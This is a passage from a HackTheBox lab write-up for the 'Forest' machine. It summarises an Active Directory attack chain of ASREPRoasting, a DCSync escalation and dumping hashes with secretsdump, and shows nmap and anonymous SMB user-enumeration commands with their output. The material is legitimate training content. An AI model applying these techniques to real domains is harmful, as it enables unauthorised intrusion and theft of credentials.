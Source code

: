 ```yaml
---
tags:
  - hack
  - windows
---
```

# HackTheBox: [Forest](https://app.hackthebox.com/machines/Forest)

> [!tip]- Summary with Spoilers
> - This Active Directory environment allowed enumeration of users via SMB and `ldapsearch`, revealing an account vulnerable to [ASREPRoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast).
> - The compromised account, `svc-alfresco`, had permissions to perform mailbox replication, enabling an [Exchange DCSync attack](https://dirkanm.io/posts/dcsync-attack-using-powerview/) for domain dominance.
> - I leveraged `PowerView` to add a new user with `DCSync` rights, retrieving all domain hashes with `secretsdump`.

## Services

### TCP

- Target: `forest.htb 10.10.10.161`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-forest.htb forest.htb

Only the relevant information for this box is shown below.

#### 445/tcp-microsoft-ds `Windows Server 2016 Standard 14393 microsoft-ds` `(workgroup: HTB)`

```console
$ nxc smb forest.htb -u '' -p '' --users
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\:
SMB         10.10.10.161    445    FOREST           -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.10.10.161    445    FOREST           Administrator                 2021-08-31 00:51:58 0       Built-in account for administering the computer/domain
SMB         10.10.10.161    445    FOREST           Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.10.10.161    445    FOREST           krbtgt                        2019-09-18 10:53:23 0       Key Distribution Center Service Account
SMB         10.10.10.161    445    FOREST           DefaultAccount                <never>             0       A user account managed by the system.
SMB         10.10.10.161    445    FOREST           $331000-VK4ADACQNUCA          <never>             0
SMB         10.10.10.161    445    FOREST           SM_2c8eef0a09b545acb          <never>             0
SMB         10.10.10.161    445    FOREST           SM_ca8c2ed5bdab4dc9b          <never>             0
SMB         10.10.10.161    445    FOREST           SM_75a538d3025e4db9a          <never>             0
SMB         10.10.10.161    445    FOREST           SM_681f53d4942840e18          <never>             0
SMB         10.10.10.161    445    FOREST           SM_1b41c9286325456bb          <never>             0
SMB         10.10.10.161    445    FOREST           SM_9b69f1b9d2cc45549          <never>             0
```